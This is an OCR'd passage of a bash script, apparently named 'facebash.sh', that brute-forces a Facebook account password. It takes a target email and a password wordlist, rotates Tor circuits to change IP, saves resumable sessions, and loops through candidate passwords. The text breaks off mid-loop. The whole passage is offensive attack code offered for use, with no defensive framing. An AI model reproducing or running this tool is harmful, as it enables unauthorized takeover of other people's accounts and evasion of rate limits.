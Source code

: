 }
USER_AGENT='Firefox'

function start() {

read -p $'\e[1;92mEmail account: \e[0m' EMAIL
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Hit Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"

}
function changeip() {

killall -HUP tor

}

function store() {

if [[ -n "$PASS" ]]; then
printf "\e[1;91m [*] Waiting a second...\n\e[0m"
sleep 3
fi
default_session="Y"
printf "\n\e[1;77mSave session for user\e[0m\e[1;92m %s \e[0m" $EMAIL
read -p $'\e[1;77m? [Y/n]: \e[0m' session
session="${session:-${default_session}}"
if [[ "$session" == "Y" || "$session" == "y" || "$session" == "yes" || "$session" == "Yes" ]]; then
if [[ ! -d sessions ]]; then
mkdir sessions
fi
cum=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
printf "EMAIL=\"%s\"\nPASS=\"%s\"\nwl_pass=\"%s\"\ncum=\"%s\"\ntoken=\"%s\"\n" $EMAIL $PASS $wl_pass $token $token > sessions/store.session.$EMAIL.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./facebash.sh --resume\n"
else
exit 1
fi

}


function bruteforcer() {

count_pass=$(wc -l $wl_pass | cut -d " " -f1)
printf "\e[1;92mEmail account:\e[0m\e[1;77m %s\e[0m\n" $EMAIL
printf "\e[1;92mWordlist:\e[0m\e[1;77m %s (%s)\e[0m\n" $wl_pass $count_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
}


function method1() {

while [ $counter -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
token=$(($counter+1))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $token $count_pass $PASS
sleep 1
